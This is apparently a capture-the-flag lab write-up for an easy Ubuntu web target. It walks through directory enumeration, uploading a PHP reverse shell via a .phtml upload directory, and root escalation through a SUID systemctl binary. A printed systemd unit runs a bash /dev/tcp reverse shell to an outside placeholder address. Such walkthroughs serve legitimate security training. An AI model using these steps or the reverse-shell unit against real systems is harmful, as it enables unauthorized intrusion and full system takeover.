








Target:  A university web application 

OS: Ubuntu Linux
Difficulty: Easy
Date: Saturday 31st January 2026
Objective: active recon, web app attacks and privilege escalation.

**RECON**
Running services:

Using tools like feroxbuster and gobuster perform web directory enumeration and found two interesting directories


*/internal/index.php*
&
*/internal/uploads*


**ATTACK HYPOTHESIS**
Navigating to the */internal/uploads*  found a previously uploaded file with a .phtml extension and hence knew it would allow a php reverse shell to my system which would be a perfect entry point into the system.
Uploading  the php reverse shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php allowed me to gain access.


Assessing my permissions on the system as *"Bill"*  the user on the system i didn't have much persmission to do alot just to read user flag


**PRIVILEGE ESCALATION**
performing privilege escalation wasn't that hard enumerating SUID binaries i found a suspicious binary among them 
		```systemctl
		```
		

I researched on how it could be leveraged to perform privilege escalation and found out if you create a service in the system the run it with systemctl you can gain reverse shell on the system
I created a root.service file in the /tmp directory and used it to gain a root reverse shell
```sh
[Unit]
Description = roooooooot
[Service]
Type=simple
User = root
ExecStart =/bin/bash -c 'bash -i >& /dev/tcp/<ip>/1234  0>&1'
[Install]
WantedBy = multi-user.target


```


The contents;

Executing and starting the service:
!
Started a listener on port 1234 and gained access a root:
!
And now reading the root flag as a proof of full system control

